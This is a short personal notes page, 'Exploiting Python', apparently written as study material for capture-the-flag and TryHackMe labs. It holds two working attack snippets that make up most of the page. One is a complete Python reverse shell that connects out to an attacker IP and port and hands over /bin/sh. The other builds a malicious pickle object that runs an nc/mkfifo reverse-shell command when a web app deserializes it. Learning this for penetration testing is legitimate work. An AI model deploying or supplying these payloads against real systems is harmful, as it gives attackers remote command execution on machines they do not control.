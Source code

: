 # Exploiting Python

author:: Nathan Acks  
date:: 2022-07-11

## A Simple Reverse Shell

```python
import socket
import subprocess
import os

attacker_ip = "10.0.0.1"
attacker_port = 1234

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((attacker_ip, attacker_port))

os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)

subprocess.call(["/bin/sh", "-i"])
```

Catch it with netcat or socat.

* [slyth11907 / Cheatsheets](https://github.com/slyth11907/Cheatsheets)

## Python Pickles

One way to attack Python webapps is to exploit the pickle.loads() operation, which reconstructs objects from an encoded data stream. When an object is reconstructed it is actually fully initialized, which means that things like `object.__reduce__()` are run.

For example, the TryHackMe: OWASP Top 10 room has us use the following code to create a malicious base64 encoded object to feed pickle.loads() (LOCAL_IP gets replaced by your machine's IP):

```python
import pickle		
import sys		
import base64		

command = 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc LOCAL_IP 4444 > /tmp/f'		

class rce(object):		
    def __reduce__(self):		
        import os		
        return (os.system,(command,))		

print(base64.b64encode(pickle.dumps(rce())))
```

What's getting encoded here is the `rce` class. Python will call `rce.__reduce__()` to determine how to initialize this class when pickle.loads() deserializes it, and `__reduce__()` wil return the tuple `(os.system, (command,))`, where `command` is basically our standard Metasploit reverse shell. Python then initializes the class by using os.system to call `command`, and there's our reverse shell!

* [Exploiting Python pickles](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)
* [pickle - Python object serialization](https://docs.python.org/3/library/pickle.html)
